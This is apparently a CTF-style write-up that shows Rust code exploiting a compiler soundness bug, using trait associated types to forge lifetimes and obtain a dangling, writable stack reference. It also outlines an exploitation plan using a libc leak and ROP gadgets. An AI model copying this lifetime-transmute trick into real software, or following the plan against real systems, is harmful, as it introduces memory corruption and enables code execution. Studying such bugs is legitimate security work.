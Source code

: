 ```rust
trait Object {
    type Output;
}

trait Marker<'b> {}
impl<'b> Marker<'b> for dyn Object<Output=&'b u64> {}

impl<'b, T: ?Sized + Marker<'b>> Object for T {
    type Output = &'static u64;
}

fn foo<'a, 'b, T: Marker<'b> + ?Sized>(x: <T as Object>::Output) -> &'a u64 {
    x
}

fn transmute_lifetime<'a, 'b>(x: &'a u64) -> &'b u64 {
    foo::<dyn Object<Output=&'a u64>>(x)
}

// And yes this is a genuine `transmute_lifetime`!
fn get_dangling<'a>() -> &'a u64 {
    let x = 0;
    transmute_lifetime(&x)
}

fn main() {
    let r = get_dangling();
    println!("stack leak {:x}", r);
}
```

The piece of code above allows you to transmute an object lifetime with another lifetime. [Lifetimes](https://doc.rust-lang.org/1.9.0/book/lifetimes.html) are how the Rust compiler and language manage object reference validity, when a lifetime of an object ends it is dropped (destructed). Violating lifetime rules causes the famous Rust compiler error: ```error[E0597]: `borrow` does not live long enough```.

The code above causes the compiler to think that we have a reference to a valid object while the object was already destructed. The reference in the code above points to a memory location on a higher stack frame.
At first, it looked like a memory leak bug, but a closer inspection revealed that we can change the type to `mut`, which causes the reference to be writable, which enables us to write to the stack!

Our exploitation plan was as follows:

1. Get a read/write pointer to the stack
2. Leak libc
3. Write an array to the stack of rop gadgets
4. Call a recursive function which will raise the stack and hopefully collide the return address with our dangling pointer
5. Within the recursion, use the dangling pointer to write our gadget to the stack and stop the recursion.
6. Profit!
